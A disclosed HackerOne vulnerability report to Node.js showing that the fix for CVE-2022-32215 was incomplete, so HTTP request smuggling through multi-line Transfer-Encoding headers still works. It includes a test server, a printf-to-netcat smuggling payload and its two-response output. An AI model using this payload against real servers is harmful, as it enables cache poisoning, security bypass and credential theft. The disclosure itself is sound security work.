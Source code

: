 # HTTP Request Smuggling Due to Incorrect Parsing of Multi-line Transfer-Encoding (improper fix for CVE-2022-32215)

## Report Details
- **Report ID**: 1665156
- **URL**: https://hackerone.com/reports/1665156
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-10T08:50:03.133Z
- **Disclosed**: 2022-10-26T08:17:40.051Z

## Reporter
- **Username**: shacharm
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**
Due to an incomplete fix for CVE-2022-32215, the `llhttp` parser in the `http` module in Node v16.16.0 and 18.7.0  still does not correctly handle multi-line Transfer-Encoding headers. This can lead to HTTP Request Smuggling (HRS).

**Description:** [add more details about this vulnerability]

We have identified that the root issue of CVE-2022-32215 (that was [reported here](https://hackerone.com/reports/1501679)) was seemingly not fixed at all. Running the same exploit produces the same unwanted result. For the sake of brevity, I won't repeat the description, it can be seen in the [original issue](https://hackerone.com/reports/1501679). 

## Steps To Reproduce:

The reproduction steps are the same from the original issue

#### Testing Server

Run the following server (`node server.js`):
```js
const http = require('http');

http.createServer((request, response) => {
   let body = [];
   request.on('error', (err) => {
   response.end("error while reading body: " + err)
   }).on('data', (chunk) => {
      body.push(chunk);
   }).on('end', () => {
   body = Buffer.concat(body).toString();
   
   response.on('error', (err) => {
      response.end("error while sending response: " + err)
   });

   response.end(JSON.stringify({
         "Headers": request.headers,
         "Length": body.length,
         "Body": body,
      }) + "\n");
   });
}).listen(80);
```

#### Payload

```
printf "POST / HTTP/1.1\r\n"\
"Host: 127.0.0.1\r\n"\
"Transfer-Encoding: chunked\r\n"\
" , chunked-false\r\n"\
"\r\n"\
"1\r\n"\
"A\r\n"\
"0\r\n"\
"\r\n"\
"GET /flag HTTP/1.1\r\n"\
"Host: 127.0.0.1\r\n"\
"foo: x\r\n"\
"\r\n"\
"\r\n" | nc localhost 80
```

#### Output

```
HTTP/1.1 200 OK
Date: Sun, 06 Mar 2022 03:34:05 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 101

{"Headers":{"transfer-encoding":"chunked , chunked-false"},"Length":1,"Body":"A"}
HTTP/1.1 200 OK
Date: Sun, 06 Mar 2022 03:34:05 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 64

{"Headers":{"host":"127.0.0.1", "foo":"x"},"Length":0,"Body":""}
```

As you can see, the payload was parsed as two requests (POST to / , and GET to /flag) which is erroneous behavior (the first request was parsed as a chunked request, which is wrong)

The expected output should be -
```
HTTP/1.1 400 Bad Request
Connection: close
```

## Supporting Material/References:

Exploitation of the issue on Node 16.16.0 -
{F1861233}

## Credit

The vulnerability was discovered by Liav Gutman of the JFrog CSO Team

## Impact

Depending on the specific web application, HRS can lead to cache poisoning, bypassing of security layers, stealing of credentials and so on.

## Attachments
- CVE-2022-32215_Node16.16.0.mov

